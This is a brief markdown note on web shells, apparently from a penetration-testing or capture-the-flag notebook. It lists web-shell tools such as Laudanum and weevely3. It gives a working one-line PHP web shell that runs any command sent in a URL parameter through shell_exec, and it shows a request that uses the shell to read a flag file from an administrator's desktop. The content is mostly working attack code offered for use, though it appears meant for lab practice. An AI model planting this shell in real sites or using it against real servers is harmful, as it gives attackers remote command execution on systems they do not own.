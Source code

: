 

## Tools

1. [[Laudanum, One Webshell to Rule Them All]]
2. [GitHub - epinna/weevely3: Weaponized web shell](https://github.com/epinna/weevely3)
3. [GitHub - WhiteWinterWolf/wwwolf-php-webshell: WhiteWinterWolf's PHP web shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)


## Examples 

 ```
<?php echo shell_exec($_GET["c"]);?>
```
 
```shell
http://STMIP/1af271ec0935f7ccbd31dc24666f7f33.php?c=type%20C:\\users\\administrator\\desktop\\flag.txt
```
